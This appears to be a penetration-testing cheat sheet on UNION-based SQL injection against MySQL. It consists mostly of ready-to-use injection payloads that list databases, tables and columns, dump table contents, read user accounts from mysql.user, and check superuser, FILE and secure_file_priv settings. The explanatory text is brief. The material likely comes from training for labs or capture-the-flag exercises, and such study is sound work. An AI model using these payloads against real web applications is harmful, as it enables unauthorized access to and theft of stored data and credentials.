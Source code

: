 ### Database Enumeration

**INFORMATION_SCHEMA Database**

To pull data from tables using UNION SELECT, we need to properly form our SELECT queries. To do so, we need the following information:

- List of databases
- List of tables within each database
- List of columns within each table

The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.
- mysql
- information_schema
- performance_schema
- sys

List all databases
````
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
````
List current database
````
cn' UNION select 1,database(),2,3-- -
````

**Tables**

List all tables from specific database
````
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='<database>'-- -
````

**Columns**

List all columns from specific table
````
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<table_name>'-- -
````

**Dump data**

Dump data from specific table
````
cn' UNION select 1, <column1>, <column2>, 4 from <database>.<table>-- -
````

#### Privileges

**DB User**
````
cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
````
**User Privileges**
````
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="<user>"-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
````
The query returns Y, which means YES, indicating superuser privileges.
If we see the FILE privilege, it means we can read and write, but we need to understand whether we are restricted or have total freedom.
````
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
````